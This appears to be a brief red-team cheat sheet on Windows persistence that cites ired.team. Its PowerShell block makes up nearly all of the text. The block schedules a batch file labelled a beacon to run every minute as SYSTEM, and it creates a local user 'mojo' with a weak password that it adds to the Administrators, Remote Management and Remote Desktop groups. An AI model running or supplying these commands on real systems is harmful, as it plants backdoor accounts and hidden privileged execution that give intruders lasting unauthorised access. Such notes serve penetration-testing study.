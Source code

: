 # Persistence

See [ired.team](https://www.ired.team/offensive-security/persistence)

```powershell
# Add a beacon that pings every minute
schtasks /create /sc minute /mo 1 /tn "chillin" /tr C:\ProgramData\System\chillin.bat /ru "SYSTEM"

# Add an administrative user to establish persistence
net user mojo Password123! /add
net localgroup administrators mojo /add
net localgroup 'Remote Management Users' mojo /add
net localgroup 'Remote Desktop Users' mojo /add
```
